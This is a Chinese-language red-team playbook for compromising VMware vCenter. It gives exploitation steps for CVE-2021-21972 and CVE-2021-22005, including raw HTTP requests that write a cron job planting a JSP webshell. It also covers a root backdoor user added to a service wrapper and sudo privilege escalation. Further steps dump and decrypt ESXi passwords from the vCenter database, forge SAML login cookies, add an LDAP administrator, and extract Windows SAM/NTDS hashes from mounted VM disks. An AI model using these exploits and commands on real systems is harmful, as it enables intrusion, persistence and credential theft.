# vcenter Attack

# 0x00 概述

fofa

```
title="+ ID_VC_Welcome +"
```

## 版本探测

https://172.16.8.111/sdk/vimServiceVersions.xml



# 0x01 CVE-2021-21972

## 概述

影响版本

VMware vCenter Server 7.0系列 < 7.0.U1c

VMware vCenter Server 6.7系列 < 6.7.U3l

VMware vCenter Server 6.5系列 < 6.5 U3n

VMware ESXi 7.0系列 < ESXi70U1c-17325551

VMware ESXi 6.7系列 < ESXi670-202102401-SG

VMware ESXi 6.5系列 < ESXi650-202102101-SG

## 复现

对  https://github.com/NS-Sp4ce/CVE-2021-21972/tree/main 小改 [脚本](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/CVE-2021-21972.py ':ignore')

上传文件的绝对路径  /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/{REPLACE_RANDOM_ID_HERE}/0/h5ngc.war/resources/{shellname}

加载本地 shell 文件

```
python3.8 CVE-2021-21972.py -u https://220.248.47.158:9443 -shell {local shell.jsp}
```

# 0x02 CVE-2021-22005

## 概述

影响版本

VMware vCenter Server 7.0

VMware vCenter Server 6.7 Running On Virtual Appliance

VMware Cloud Foundation (vCenter Server) 4.x

VMware Cloud Foundation (vCenter Server) 3.x

## AsyncTelemetryController复现 写定时任务

https://xz.aliyun.com/t/10524#toc-3

`_c 和 _i`默认是没有的，来控制 /var/log/vmware/analytics/prod 下的文件，可以随便写

返回 201 ，漏洞存在

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 172.16.8.111
Content-Length: 0
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum


```



ceip 是否启动，OFF为关闭

复现的时候 建了一个 `_c=testb` 是 OFF，但是仍然可以写

```http
GET /analytics/telemetry/ph/api/level?_c=vSphere.vapi.6_7 HTTP/1.1
Host: 172.16.8.111
Content-Length: 0
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum


```



开启 ceip ，默认是关闭的

```http
PUT /ui/ceip-ui/ctrl/ceip/status/true HTTP/1.1
Host: 172.16.8.111
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum

{}
```



创建prod目录，即创建 /var/log/vmware/analytics/prod 下的

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3


{}
```

创建_cvSphere.vapi.6_7_i目录即创建 /var/log/vmware/analytics/prod 下的

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/temp HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3


{}
```



追加写入到任意路径，文件后缀不可控为 .json

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/test HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 9

1test


```



直接写定时任务，然后访问 https://{ip}/idm/..;/hello.jsp

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=testb&_i=/../../../../../../etc/cron.d/test HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 154

* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp
```

## DataAppAgentController

# 0x03 提权

## 利用 CVE-2021-22005 java-wrapper-vmon 本地提权（实战中没办法重启）

查看以 root 权限运行的进程，全都连接到 /usr/java/jre-vmware/bin/ 

```
ps aux | grep "^root"
```



/usr/lib/vmware-vmon/java-wrapper-vmon 权限

```
ls -alh /usr/lib/vmware-vmon/java-wrapper-vmon
```



cis 用户组可以修改该文件，在 `/etc/group` 下查看 cis 用户组中的相关用户，存在 vsphere-ui ，可修改 java-wrapper-vmon 文件添加后门

```
cat /etc/group | grep cis
```



添加

```
if [ ! -e /tmp/passwd.bak ]; then
 useradd -d /root -u 0 -o -g root -G root ppp
 echo ppp:passXX*1*11|chpasswd
fi
```

重启服务以创建用户

```
service-control --start --all
```

## CVE-2021-3156 提权写webshell

目标为 photon os，直接写入root权限的webshell [wbs.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/wbs.py ':ignore') ，脚本依据 [exploit_userspec.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py) 修改得到

上传脚本到服务器运行，python wbs.py



访问 https://{ip}/idm/..;/ppp.jsp




## CVE-2021-3156 sudo

vCenter 镜像是基于 Photon OS 构建的。旧版本的 vCenter 使用 Photon 1.0，vCenter 7 中使用的 Photon 3.0，vCenter 7 的 glibc 库版本为 2.28，sudo 版本从 1.8.x 到 1.9.x 均存在，利用 sudo 提权漏洞将 vsphere-ui 权限提升到 root 权限。

cat /etc/photon-release



根据 @Cedric Halbronn 的研究，在 Photon OS 3.0 上的 cmnd size 与 defaults offset 均与 CentOS 7 上的数值不一样，通过修改上面的块大小与偏移量，可以实现在 vCenter7 上的 sudo 提权。

https://github.com/worawit/CVE-2021-3156/blob/main/exploit_defaults_mailer.py

# 0x04 数据库操作

没有 psql 执行环境的需要自己上传 [psql执行文件](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/psql.zip ':ignore')

```
应用自己的动态连接库文件
export LD_LIBRARY_PATH=/tmp/py
```

数据库配置文件位置：

```
Linux：
/etc/vmware/service-state/vpxd/vcdb.properties
/etc/vmware-vpx/vcdb.properties
/etc/VMware/vCenterServer/cfg/vmware-vpx/vcdb.properties

Windows：
C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
C:\ProgramData\VMware\VMware VirtualCenter\vcdb.properties
```

vcenter 本地连接数据库获取 ESXI 账号密码

```
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > /tmp/tets/password.enc
```

虚拟主机信息

```
SELECT id,datacenter_id,file_name,guest_os,ip_address,config FROM vc.vpx_vm;
```

获取 symkey.dat 

```
Windows：  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
Linux:  /etc/vmware-vpx/ssl/symkey.dat
```

使用 [decrypt.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/decrypt.py ':ignore') 解密得到密码

```
python3 decrypt.py symkey.dat password.enc password.txt

python decrypt.py [symkey] [encrypted_password] 
```

登陆 ESXI 后台  https://192.168.100.37/ui/  ，后台可手动打开 ssh 服务



可通过 ssh 登陆后操作虚拟机磁盘或快照



# 0x05 登陆 vcenter 后台

## 获取cookie

data.mdb文件位置：

```
Linux：
/storage/db/vmware-vmdir/data.mdb
/storage/db/vmware-vmdir/snapshot/data.mdb

Windows：
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb

vCenter备份文件 lotus_backup.tar.gz 中也保存有data.mdb
```

ps. 如果为外网 vcenter 点，访问 http://ip/ui 可以让其跳转

### 服务器上提取

https://github.com/3gstudent/Homework-of-Python/

data.mdb 过大，减少交互流量

上传 [vCenter_ExtraCertFromMdb.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vCenter_ExtraCertFromMdb.py ':ignore') 到服务器得到几个参数

```
python vCenter_ExtraCertFromMdb.py /storage/db/vmware-vmdir/data.mdb

domain，在命令行显示
idp_cert，保存为idp_cert.txt
trusted_cert_1，保存为trusted_cert_1.txt
trusted_cert_2，保存为trusted_cert_2.txt
```

运行 [vCenter_GenerateLoginCookie.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vCenter_GenerateLoginCookie.py ':ignore') 获取 Cookie

```
python3.8 vCenter_GenerateLoginCookie.py 192.168.100.3 192.168.100.3 vsphere.local idp_cert.txt trusted_cert_1.txt trusted_cert_2.txt
```

### 本地提取

https://github.com/horizon3ai/vcenter_saml_login/blob/main/vcenter_saml_login.py

[vcenter_saml_login.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vcenter_saml_login.py ':ignore')

```
python3.8 vcenter_saml_login.py -t 192.168.100.3 -p data.mdb
```

改 Cookie 登陆 http://ip/ui

## 添加 vSphere Client 管理员用户

https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%975-LDAP

[vCenterLDAP_Manage.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vCenterLDAP_Manage.py ':ignore')

添加用户

```
python vCenterLDAP_Manage.py adduser
根据返回值 dcAccountDN 替换

1. 输入用户名 pwnd
2. 替换dn 的 CN 为用户名
CN=pwnd,CN=Users,DC=vsphere,DC=local
3. userPrincipalName 真正的登陆用户名
pwnd@vsphere.local
```



添加管理员

```
python vCenterLDAP_Manage.py addadmin
1. 输入 dn
CN=pwnd,CN=Users,DC=vsphere,DC=local
```



登陆系统

```
pwnd@vsphere.local
P@ssWord123@@
```



# 0x06 虚拟机存在锁屏

登陆 vSphere Client 平台

## 跳板

1. 自己装一个虚拟机，优先考虑 vcenter 上自带的模板或传一个小 PE

2. 任意克隆一台可控的机器

## 克隆虚拟机

不管是干什么，操作前先克隆！！！！先克隆！！！！先克隆！！！！求稳。

因为 windows 很坑，会有一些很离谱的问题。直接挂载虚拟机，会自动触发比如说自动磁盘修复，最后那台电脑就打不开了！最后那台电脑就打不开了！最后那台电脑就打不开了！







## iso制作 打包工具

需要上传的文件可以自己打包为 iso 传到服务器，如果出网可以省略这一步直接下载

```
mkisofs -o mim.iso -J -R -V bb mimiso

-o 为文件名
-J 选项用于生成 Joliet 文件系统格式，该格式用于支持长文件名和 Unicode 字符集。
-R 选项用于生成 Rock Ridge 扩展属性，该扩展属性支持 UNIX 样式的文件和目录权限。
-V 选项用于设置卷标（Volume Label）为 bb。
mimiso 指定打包的文件夹
```

## kon-bootCD 绕过登陆 不好用

[datastore 37-2] ISO/zh-cn_windows_10_enterprise_ltsc_2021_x64_dvd_033b7312.iso

上传 kon-bootCD.iso 后更换 CD/DVD 介质



更改 BIOS 设置



`+ -` 移动到首位，F10保存



出现这个界面说明记载成功


登陆页面连按5下shift进入桌面，实测高版本win用不了，server 报错

## 挂载vmdk

选择一台可控虚拟机，在编辑设置里，挂载其他系统的 vmdk 文件。（建议挂载克隆的盘）




不出网环境可以挂载自己打包的 iso 工具



开机，执行 diskmgmt.msc ，联机挂载磁盘。最后成功识别到 工具盘D: 、挂载的F:



找相关文件

```
SYSTEM :C:\Windows\System32\config\SYSTEM
SAM :C:\Windows\System32\config\SAM
mimikatz lsadump::sam /sam:SAM /system:SYSTEM

如果目标是DC服务器，还可以导出ntds.dit文件读全域hash
NTDS.dit  : C:\Windows\NTDS\NTDS.dit 
```





# 0x07 开启文件内容复制粘贴功能

只能复制文件内的字符，且有长度限制

1. 在 vSphere Client 清单中，浏览到虚拟机。
2. 右键单击虚拟机，然后单击**编辑设置**。
3. 选择**虚拟机选项**。
4. 单击**高级**，然后单击**编辑配置**。
5. 确保“名称”和“值”列中存在以下值，否则添加这些值。

| 名称                          | 值    |
| :---------------------------- | :---- |
| isolation.tools.copy.disable  | false |
| isolation.tools.paste.disable | false |



使用 vmrc方式打开即可复制



**参考**

https://daidaitiehanhan.github.io/2022/04/18/vCenter2021%E5%87%A0%E4%B8%AA%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%90%8E%E6%B8%97%E9%80%8F
